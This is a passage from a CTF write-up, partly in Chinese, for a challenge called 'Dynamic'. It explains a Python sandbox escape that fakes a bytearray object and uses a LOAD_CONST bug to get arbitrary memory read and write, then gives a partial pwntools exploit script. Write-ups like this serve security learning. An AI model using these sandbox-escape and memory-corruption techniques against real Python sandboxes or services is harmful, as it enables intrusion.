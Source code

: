 ~~~python
add_in_same_region(4, 0x100, region)
dele(0xf)
print(r())
io.close()
~~~



## Dynamic
首先用python沙箱逃逸技巧拿到一些类的构造方法，然后创建一个bytearray对象并在其buffer中伪造一个bytearray对象，这个对象buffer起始地址为0，大小为一个极大值。然后利用python的LOAD_CONST bug构造一个能够返回我们伪造的bytearray对象的DynaFunc对象。有了这个bytearray对象后即可任意读写，写返回时的栈orw读出flag即可。虽然DynaFunc里没有故意设置漏洞，但说不定会有，感兴趣的dalao们可以康康https://github.com/veltavid/MRCTF2022/tree/main/Dynamic。

exp:

```python=
from pwn import *

lib=ELF("./libc.so.6")
python=ELF("./python3.10")
malloc_got=python.got['malloc']
environ_offset=python.sym['environ']
malloc_offset=lib.sym['malloc']
open_offset=lib.sym['open']
read_offset=lib.sym['read']
write_offset=lib.sym['write']
libc_start_main_offset=0x240B3

code="""
str="".__class__
bytearray=[x for x in b"".__class__.__base__.__subclasses__() if "bytearray" in str(x)][1]
LOAD_CONST=100
EXTENDED_ARG=144
RETURN_VAL=83

p8_code=\"\"\"
bytes=b"".__class__
return bytes([fd&0xff])
\"\"\"

p64_code=\"\"\"
bytes=b"".__class__
result=[]
for i in range(8):
	result.append((fd>>(i*8))&0xff)
return bytes(result)
\"\"\"

u64_code=\"\"\"
res=0
for x in fd[::-1]:
	res = (res<<8) | x
return res
\"\"\"

p8=DynaFunc(func)
p64=DynaFunc(func)
u64=DynaFunc(func)
exp_func=DynaFunc(func)
p8.set(p8_code)
p64.set(p64_code)
u64.set(u64_code)

const_tuple=()
```